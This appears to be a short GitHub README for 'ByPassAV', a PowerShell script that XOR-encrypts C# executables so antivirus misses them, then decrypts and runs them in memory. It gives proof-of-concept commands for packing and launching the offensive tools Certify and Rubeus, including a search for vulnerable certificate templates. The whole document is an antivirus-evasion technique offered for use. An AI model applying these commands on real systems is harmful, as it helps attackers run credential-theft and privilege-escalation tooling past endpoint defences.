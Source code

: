 # ByPassAV


According to the documentation for [Certify](https://github.com/GhostPack/Certify) to be run from powershell.

This encrypts using XOR and the AV can be skipped.

> *Note: Only works with C# Executables*

## POC Certify
### Encrypt
```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\Certify.exe -Encrypt -OutPut c:\temp\certify.enc
```

### Decrypt

```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\Certify.enc -Decrypt
[Certify.Program]::Main("find /vulnerable".split())
```

## POC Rubeus
### Encrypt
```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\Rubeus.exe -OutPut C:\temp\rubeus.enc -Encrypt
```
### Decrypt

```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\rubeus.enc -Decrypt
[Rubeus.Program]::Main("""".split())
```